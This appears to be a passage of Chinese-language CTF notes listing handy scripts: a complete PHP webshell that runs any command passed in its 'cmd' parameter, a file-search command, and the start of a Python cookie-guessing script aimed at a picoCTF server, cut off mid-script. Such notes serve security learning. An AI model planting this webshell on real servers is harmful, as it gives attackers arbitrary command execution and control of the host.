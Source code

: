 
- 好用的script：
    - 制造webshell
    ```php
    <!-- 每次submit都会触发一次GET，然后php会捕获和处理这个get -->
    <!-- name=<?php echo basename($_SERVER['PHP_SELF']); ?> 用于防止表单名称冲突 -->
    <html>
        <body>
            <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
                <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
                <input type="SUBMIT" value="Execute">
            </form>
            <pre>
                <?php
                    if(isset($_GET['cmd']))
                    {
                        system($_GET['cmd']);
                    }
                ?>
            </pre>
        </body>
    </html>
    ```
    - 找.txt文件：
        - 最简单的`ls`
        - `find / -name “*.txt”`
    - python 自动化查询
        - eg
        ```py
        # Import Libraries
        from bs4 import BeautifulSoup
        from subprocess import run
        import requests

        url = "http://mercury.picoctf.net:44693/"

        # Get cookie
        session = requests.Session()
        response = session.get(url)
        cookie = session.cookies.get_dict().get('session')

        # Create wordlist
        cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

        F = open('wordlist.txt', 'w') 
        for name in cookie_names:
            F.write(name + "\n")
        